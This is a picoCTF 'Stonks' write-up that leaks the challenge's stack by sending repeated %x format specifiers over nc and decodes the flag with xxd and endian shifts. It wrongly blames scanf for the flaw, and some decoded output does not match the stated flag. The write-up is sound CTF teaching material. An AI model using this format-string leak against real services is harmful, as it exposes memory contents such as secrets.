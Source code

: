 # Stonks
Category: Binary Exploitation\
Points: 20

## Description
I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](https://mercury.picoctf.net/static/fdf270d959fa5231e180e2bd11421d0c/vuln.c) *nc mercury.picoctf.net 16439*

## Solution
Looking at the *vuln.c* code snippits below, there were two places where user input is accepted. The integer input is properly passed by reference, removing the possibility of specifying a memory location. The string input width is properly specified, removing the option for a buffer overflow through trivial padding.

```c
int resp = 0;
[...]
printf("Welcome back to the trading app!\n\n");
printf("What would you like to do?\n");
printf("1) Buy some stonks!\n");
printf("2) View my portfolio\n");
scanf("%d", &resp);
[...]
char *user_buf = malloc(300 + 1);
printf("What is your API token?\n");
scanf("%300s", user_buf);
```

However, *scanf* is still vulnerable to formatting attacks. By passing *%x* as input, we can get the program to output the stack as hex data.
```
$ echo 1 `for i in {1..32}; do echo -ne %x; done` | nc mercury.picoctf.net 16439
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
Buying stonks with token:
83cd390804b00080489c3f7f6dd80ffffffff183cb160f7f7b110f7f6ddc7083cc180183cd37083cd3906f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e6263376365616336ff9c007df7fa8af8f7f7b440ea11670010f7e0abe9f7f7c0c0f7f6d5c0
Portfolio as of Sun Jul 18 06:28:02 UTC 2021


1 shares of A
2 shares of TNK
58 shares of KSJ
69 shares of J
126 shares of R
Goodbye!
```

Saving the hex characters to a file and running that through *xxd* showed something resembling a flag, but the endian needs to be adjusted.
```
$ echo 83cd390804b00080489c3f7f6dd80ffffffff183cb160f7f7b110f7f6ddc7083cc180183cd37083cd3906f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e6263376365616336ff9c007df7fa8af8f7f7b440ea11670010f7e0abe9f7f7c0c0f7f6d5c0 > hex
$ cat hex | xxd -r -p
����H�?m�������{m�p��▒��<Ӑocip{FTC0l_I4_t5m_ll0m_y_y3nbc7ceac6��}�������@�g������������
```

*xxd* is not able to adjust endian when converting from hex. So the text is converted back to hex using the correct endian mode, and converted back to text from there. But it's still a little off...
```
$ cat hex | xxd -r -p | xxd -e | xxd -r -p
9̓��?�H��m�����{�p�m �▒�7�co��F{pi0l0CT_4I__m5tm0ll�@y_y_cbn3aec7��6cP��}�����@��g`�����������
```

The endian conversion messed up the byte order even more, so it seems the word grouping is offset. Adjusting that output the flag!
```
cat hex | xxd -r -p | xxd -e -s+2 | xxd -r -p
9�H��m?���˃�{�m▒̃p"7̓��picoCTF{2I_l05t_4ll_my_m0Bn3y_c7cb6cae}��R����@���g����b���������
```

### Flag
```
picoCTF{I_l05t_4ll_my_m0n3y_c7cb6cae}
```